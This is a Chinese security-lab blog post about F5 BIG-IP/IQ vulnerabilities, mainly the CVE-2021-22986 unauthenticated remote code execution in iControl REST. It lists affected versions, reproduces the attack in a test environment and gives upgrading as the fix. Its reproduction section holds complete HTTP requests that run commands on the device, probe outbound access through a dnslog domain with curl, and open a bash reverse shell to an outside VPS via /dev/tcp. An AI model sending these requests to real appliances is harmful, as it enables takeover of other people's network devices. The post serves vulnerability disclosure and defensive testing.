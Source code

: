 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/oJD-AMj04BFLr3_i3KGK4g)

  

网安引领时代，弥天点亮未来   

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 漏洞简述**  

  

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。

2021 年 3 月 10 日，F5 官方发布安全通告，安全更新包含了影响 F5 的 BIG-IP，BIG-IQ 设备的多个高危漏洞，漏洞编号分别为 CVE-2021-22986，CVE-2021-22987，CVE-2021-22988，CVE-2021-22989，CVE-2021-22990，CVE-2021-22991，CVE-2021-22992；其中 CVE-2021-22986 为 F5 BIG-IP/IQ 设备 iControl REST 接口的未授权远程代码执行漏洞，漏洞评分 9.8，评级严重。F5 安全公告更新了 BIG-IP，BIG-IQ 中的多个严重漏洞。建议广大用户及时将 f5 big-iq,f5 big-ip 升级到最新版本，避免遭到攻击。

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x01 漏洞简述**  

  

BIG-IP 16.0.0-16.0.1  
       BIG-IP15.1.0-15.1.2  
       BIG-IP14.1.0-14.1.3.1  
       BIG-IP13.1.0-13.1.3.5  
       BIG-IP12.1.0-12.1.5.2  
       BIG-IQ7.1.0-7.1.0.2  
       BIG-IQ7.0.0-7.0.0.1  
       BIG-IQ6.0.0-6.1.0

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x02 漏洞复现**  

  

部署安装 F5 BIG-IPV 漏洞测试靶场环境。

1、访问漏洞环境

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDYVRXoZ4yYqEKWV78wwMtHghHXzDicprMoLSWf16Zby2yyiaZ9LgCF6Eamqzia6GkLn73ftj9TMZFibw/640?wx_fmt=png)

2、POC 验证，进行命令执行操作

1. 系统命令执行

```
POST/mgmt/tm/util/bash HTTP/1.1
Host: 192.168.3.112
Connection: close
Content-Length: 41
Cache-Control:max-age=0
Authorization: BasicYWRtaW46QVNhc1M=
X-F5-Auth-Token:
Upgrade-Insecure-Requests:1
Content-Type:application/json
 
{"command":"run","utilCmdArgs":"-c id"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDYVRXoZ4yYqEKWV78wwMtHElUZnT9KleLvmbyEib5ZuGy1uKBZjVdNbmJDJiaEImk6zqkMXo6xYyiaQ/640?wx_fmt=png)

2. 通过 dnslog 探测是否可以出网

生成域名：zg8ie5.dnslog.cn

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDYVRXoZ4yYqEKWV78wwMtHcT99VAT4ART8kk0TKIO7NJldKR4NcicmgF7qPFst0bosztiaeIKfbH9Q/640?wx_fmt=png)

出网探测

```
POST/mgmt/tm/util/bash HTTP/1.1
Host: 192.168.3.112
Connection: close
Content-Length: 62
Cache-Control:max-age=0
Authorization: BasicYWRtaW46QVNhc1M=
X-F5-Auth-Token:
Upgrade-Insecure-Requests:1
Content-Type:application/json
 
{"command":"run","utilCmdArgs":"-c 'curl zg8ie5.dnslog.cn'"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDYVRXoZ4yYqEKWV78wwMtHJwJeyiafYZ6L4Aae1BicOuZJpAnWd3obxcEefPiazVzXBvX8eeC7dHhwg/640?wx_fmt=png)

发现可以出网

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDYVRXoZ4yYqEKWV78wwMtH04Kb8iafbh3icgb8YXznhlQ91iaibKKgicNTeEzbdzkh89xA8YmLoyCqiaEw/640?wx_fmt=png)

3. 通过 bash 反弹 shell 到 vps

```
POST/mgmt/tm/util/bash HTTP/1.1
Host: 192.168.3.112
Connection: close
Content-Length: 83
Cache-Control:max-age=0
Authorization: BasicYWRtaW46QVNhc1M=
X-F5-Auth-Token:
Upgrade-Insecure-Requests:1
Content-Type:application/json
 
{"command":"run","utilCmdArgs":"-c 'bash -i >&/dev/tcp/6.6.6.6/12377 0>&1'"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDYVRXoZ4yYqEKWV78wwMtHryiadvOFQSMYHHJ7HGdPhllyib0CRZD1H39UNwBHrU6jgUI9akdhzBNw/640?wx_fmt=png)

  
      漏洞验证 python 脚本

```
https://github.com/PeiQi0/PeiQi-WIKI-POC
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x03 修复建议**  

  

升级到最新版本

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x04 参考链接**  

  

https://mp.weixin.qq.com/s/ZtE7R4PPgdWY9ea06A9wqQ

https://mp.weixin.qq.com/s/lyrVwgSnu0iSehVr3lZiRw

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)
